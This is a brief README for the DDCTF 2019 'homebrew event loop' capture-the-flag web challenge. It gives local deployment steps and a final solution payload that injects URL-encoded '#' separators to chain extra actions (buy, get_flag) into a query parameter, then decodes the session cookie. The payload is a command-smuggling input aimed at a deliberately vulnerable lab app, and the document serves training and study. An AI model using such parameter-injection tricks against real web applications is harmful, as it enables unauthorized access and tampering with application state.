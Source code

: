 # [DDCTF2019 Web] homebrew event loop

## Deployment

`$ python eventLoop.py` (python 2.7)    

then visit http://127.0.0.1:5000/d5afe1f66747e857/

## Solution

final payload: `/d5afe1f66747e857/?action:trigger_event%23;action:buy;5%23action:get_flag;`    

then decode the cookie using `decodeCookie.py`

## Related Challenges

`*ctf 2019` (a.k.a starctf 2019) `homebrewEvtLoop--`(stage 1) and `homebrewEvtLoop#`(stage 2)